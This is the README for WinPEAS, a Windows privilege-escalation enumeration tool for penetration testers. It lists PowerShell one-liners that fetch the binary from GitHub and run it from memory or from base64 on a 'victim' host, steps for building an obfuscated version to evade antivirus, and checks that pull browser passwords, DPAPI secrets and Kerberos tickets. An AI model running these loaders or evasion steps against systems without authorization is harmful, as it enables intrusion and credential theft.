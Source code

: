 # Windows Privilege Escalation Awesome Script (.exe)

![](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/winpeas.png)

**WinPEAS is a script that search for possible paths to escalate privileges on Windows hosts. The checks are explained on [book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)**

Check also the **Local Windows Privilege Escalation checklist** from **[book.hacktricks.wiki](https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html)**

[![youtube](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/screen.png)](https://youtu.be/66gOwXMnxRI)

## Quick Start

**.Net >= 4.5.2 is required**

Precompiled binaries:
- Download the **[latest obfuscated and not obfuscated versions from here](https://github.com/peass-ng/PEASS-ng/releases/latest)** or **compile it yourself** (read instructions for compilation).

```bash
# Get latest release
$url = "https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# One liner to download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

# The cprevios cmd in 2 lines
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Download to disk and execute (super noisy)
$wc = New-Object System.Net.WebClient
$wc.DownloadFile("https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe", "winPEASany_ofs.exe")
.\winPEASany_ofs.exe

# Load from disk in memory and execute:
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS.exe")));
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Load from disk in base64 and execute
##Generate winpeas in Base64:
[Convert]::ToBase64String([IO.File]::ReadAllBytes("D:\Users\user\winPEAS.exe")) | Out-File -Encoding ASCII D:\Users\user\winPEAS.txt
##Now upload the B64 string to the victim inside a file or copy it to the clipboard

 ##If you have uploaded the B64 as afile load it with:
$thecontent = Get-Content -Path D:\Users\victim\winPEAS.txt
 ##If you have copied the B64 to the clipboard do:
$thecontent = "aaaaaaaa..." #Where "aaa..." is the winpeas base64 string
##Finally, load binary in memory and execute
$wp = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($thecontent))
[winPEAS.Program]::Main("") #Put inside the quotes the winpeas parameters you want to use

# Loading from file and executing a winpeas obfuscated version
##Load obfuscated version
$wp = [System.Reflection.Assembly]::Load([byte[]]([IO.File]::ReadAllBytes("D:\Users\victim\winPEAS-Obfuscated.exe")));
$wp.EntryPoint #Get the name of the ReflectedType, in obfuscated versions sometimes this is different from "winPEAS.Program"
[<ReflectedType_from_before>]::Main("") #Used the ReflectedType name to execute winpeas
```

## Parameters Examples

```bash
winpeas.exe -h # Get Help
winpeas.exe #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
winpeas.exe domain #enumerate also domain information
winpeas.exe wait #wait for user input between tests
winpeas.exe debug #display additional debug information
winpeas.exe log #log output to out.txt instead of standard output
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)
winpeas.exe -lolbas  #Execute also additional LOLBAS search check
```

## Basic information

The goal of this project is to search for possible **Privilege Escalation Paths** in Windows environments.

New in this version:
- Detect potential GPO abuse by flagging writable SYSVOL paths for GPOs applied to the current host and by highlighting membership in the "Group Policy Creator Owners" group.


It should take only a **few seconds** to execute almost all the checks and **some seconds/minutes during the lasts checks searching for known filenames** that could contain passwords (the time depened on the number of files in your home folder). By default only **some** filenames that could contain credentials are searched, you can use the **searchall** parameter to search all the list (this could will add some minutes).

The tool is based on **[SeatBelt](https://github.com/GhostPack/Seatbelt)**.

### New (AD-aware) checks

- Active Directory quick checks now include:
  - gMSA readable managed passwords: enumerate msDS-GroupManagedServiceAccount objects and report those where the current user/group is allowed to retrieve the managed password (PrincipalsAllowedToRetrieveManagedPassword).
  - AD CS (ESC4) hygiene: enumerate published certificate templates and highlight templates where the current user/group has dangerous control rights (GenericAll/WriteDacl/WriteOwner/WriteProperty/ExtendedRight) that could allow template abuse (e.g., ESC4 -> ESC1).

These checks are lightweight, read-only, and only run when the host is domain-joined.


## Where are my COLORS?!?!?!

The **ouput will be colored** using **ansi** colors. If you are executing `winpeas.exe` **from a Windows console**, you need to set a registry value to see the colors (and open a new CMD):
```
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Below you have some indications about what does each color means exacty, but keep in mind that **Red** is for something interesting (from a pentester perspective) and **Green** is something well configured (from a defender perspective).

![](https://github.com/peass-ng/PEASS-ng/raw/master/winPEAS/winPEASexe/images/colors.png)

## Instructions to compile you own obfuscated version

<details>
  <summary>Details</summary>

In order to compile an **ofuscated version** of Winpeas and bypass some AVs you need to ** install dotfuscator ** in *VisualStudio*.

To install it *open VisualStudio --> Go to Search (CTRL+Q) --> Write "dotfuscator"* and just follow the instructions to install it.

To use **dotfuscator** you will need to **create an account** *(they will send you an email to the address you set during registration*).

Once you have installed and activated it you need to:
1. **Compile** winpeas in VisualStudio
2. **Open dotfuscator** app
3. **Open** in dotfuscator **winPEAS.exe compiled**
4. Click on **Build**
5. The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

**I'm sorry that all of this is necessary but is worth it. Dotfuscator minimizes a bit the size of the executable and obfuscates the code**.

![](https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASexe/images/dotfuscator.PNG)

**IMPORTANT**: Note that Defender will higly probable delete the winpeas iintial unobfuscated version, so you need to set as expections the origin folder of Winpeas and the folder were the obfuscated version will be saved:
![](https://user-images.githubusercontent.com/1741662/148418852-e7ffee6a-c270-4e26-bf38-bb8977b3ad9c.png)
</details>

## Checks

<details>
  <summary>Details</summary>

- **System Information**
  - [x] Basic System info information
  - [x] Use Watson to search for vulnerabilities
  - [x] Enumerate Microsoft updates
  - [x] PS, Audit, WEF and LAPS Settings
  - [x] LSA protection
  - [x] Credential Guard
  - [x] WDigest
  - [x] Number of cached cred
  - [x] Environment Variables
  - [x] Internet Settings
  - [x] Current drives information
  - [x] AV
  - [x] Windows Defender
  - [x] UAC configuration
  - [x] NTLM Settings
  - [x] Local Group Policy
  - [x] Applocker Configuration & bypass suggestions
  - [x] Printers
  - [x] Named Pipes
  - [x] AMSI Providers
  - [x] SysMon
  - [x] .NET Versions

- **Users Information**
  - [x] Users information
  - [x] Current token privileges
  - [x] Clipboard text
  - [x] Current logged users
  - [x] RDP sessions
  - [x] Ever logged users
  - [x] Autologin credentials
  - [x] Home folders
  - [x] Password policies
  - [x] Local User details
  - [x] Logon Sessions

- **Processes Information**
  - [x] Interesting processes (non Microsoft)

- **Services Information**
  - [x] Interesting services (non Microsoft) information
  - [x] Modifiable services
  - [x] Writable service registry binpath
  - [x] PATH Dll Hijacking

- **Applications Information**
  - [x] Current Active Window
  - [x] Installed software
  - [x] AutoRuns
  - [x] Scheduled tasks
  - [x] Device drivers

- **Network Information**
  - [x] Current net shares
  - [x] Mapped drives (WMI)
  - [x] hosts file
  - [x] Network Interfaces
  - [x] Listening ports
  - [x] Firewall rules
  - [x] DNS Cache (limit 70)
  - [x] Internet Settings

- **Cloud Metadata Enumeration**
  - [x] AWS Metadata
  - [x] GCP Metadata
  - [x] Azure Metadata

- **Windows Credentials**
  - [x] Windows Vault
  - [x] Credential Manager
  - [x] Saved RDP settings
  - [x] Recently run commands
  - [x] Default PS transcripts files
  - [x] DPAPI Masterkeys
  - [x] DPAPI Credential files
  - [x] Remote Desktop Connection Manager credentials
  - [x] Kerberos Tickets
  - [x] Wifi
  - [x] AppCmd.exe
  - [x] SSClient.exe
  - [x] SCCM
  - [x] Security Package Credentials
  - [x] AlwaysInstallElevated
  - [x] WSUS

- **Browser Information**
  - [x] Firefox DBs
  - [x] Credentials in firefox history
  - [x] Chrome DBs
  - [x] Credentials in chrome history
  - [x] Current IE tabs
  - [x] Credentials in IE history
  - [x] IE Favorites
  - [x] Extracting saved passwords for: Firefox, Chrome, Opera, Brave

- **Interesting Files and registry**
  - [x] Putty sessions
  - [x] Putty SSH host keys
  - [x] SuperPutty info
  - [x] Office365 endpoints synced by OneDrive
  - [x] SSH Keys inside registry
  - [x] Cloud credentials
  - [x] Check for unattended files
  - [x] Check for SAM & SYSTEM backups
  - [x] Check for cached GPP Passwords
  - [x] Check for and extract creds from McAffe SiteList.xml files
  - [x] Possible registries with credentials
  - [x] Possible credentials files in users homes
  - [x] Possible password files inside the Recycle bin
  - [x] Possible files containing credentials (this take some minutes)
  - [x] User documents (limit 100)
  - [x] Oracle SQL Developer config files check
  - [x] Slack files search
  - [x] Outlook downloads
  - [x] Machine and user certificate files
  - [x] Office most recent documents
  - [x] Hidden files and folders
  - [x] Executable files in non-default folders with write permissions
  - [x] WSL check

- **Events Information**
  - [x] Logon + Explicit Logon Events
  - [x] Process Creation Events
  - [x] PowerShell Events
  - [x] Power On/Off Events

- **Additional (slower) checks**
  - [x] LOLBAS search
  - [x] run **[linpeas.sh](https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh)** in default WSL distribution

</details>

## TODO
- Add more checks
- Mantain updated Watson (last JAN 2021)

If you want to help with any of this, you can do it using **[github issues](https://github.com/peass-ng/PEASS-ng/issues)** or you can submit a pull request.

If you find any issue, please report it using **[github issues](https://github.com/peass-ng/PEASS-ng/issues)**.

**WinPEAS** is being **updated** every time I find something that could be useful to escalate privileges.

## Advisory

All the scripts/binaries of the PEAS Suite should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.
